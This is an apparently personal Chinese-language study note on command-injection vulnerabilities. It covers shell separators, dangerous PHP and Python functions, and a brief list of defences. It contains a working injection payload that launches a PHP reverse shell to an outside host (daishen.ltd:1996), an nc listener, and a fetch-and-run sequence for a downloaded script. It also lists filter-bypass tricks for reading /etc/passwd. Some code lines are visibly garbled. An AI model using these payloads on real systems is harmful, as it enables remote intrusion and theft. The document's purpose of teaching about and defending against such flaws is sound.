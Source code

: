 # 命令执行漏洞

系统命令执行

&、&&、|、||

```
&	#后台执行
&& 	#前一条命令执行成功，才执行后面一条命令
|	#上一条命令输出作为下一条命令的参数
||	#上一条命令执行失败后才执行下一-条命令
; 	# 多个命令顺序执行
	换行符(\n或0x0a)

```

代码命令执行

PHP:  system、exec、shell、exec、popen、proc_popen 等

Python: eval()、 os.system()、 subprocess.Popen等

# 命令执行利用场景

1.存在回显的情况

2.可以执行延时函数的情况

# 系统命令执行与代码命令执行漏洞的检测与利用

系统命令

![image-20210616094722183](D:\BaiduNetdiskDownload\安全\命令执行漏洞\命令执行漏洞原理与应用场景.assets\image-20210616094722183.png)

代码命令执行

```
ip=127.0.0.1+%26%26+php -r '$sock=fsockopen("daishen.ltd",1996);exec("/bin/bash -i <&3 >&3 2>&3")'&Submit=Submit
```

```
nc -lvvp 1996
```

```
System('wget xxxxx/1.sh';
System('Is');
System('chmod +X 1.sh');
system(/bin/bash 1.sh');

```

# 系统命令执行与代码命令执行防御与绕过

不使用命令执行函数

如果一定使用命令执行函数，则进行输入验证

输入的命令尽量使用占位符，不要直接拼接变量

尽量不要执行危险函数，将disable_functions禁用

使用escapeshellcmd函数进行过滤

使用safe_mode_exec_dir，指定可执行文件路径

绕过

```
%0a\%0d    换行，回车

cat /etc/passwd >>>> c""at /etc/pas""swd >>>> ca\t /etc/pas\swd >>>> ca\t /etc/pas???

whoami >>>> w"h"o"a"mi >>>> (w"h"o"a"mi) >>>> wh""""""""""oami

ping 127.0.0.1 >>>> ping 2130706433
```

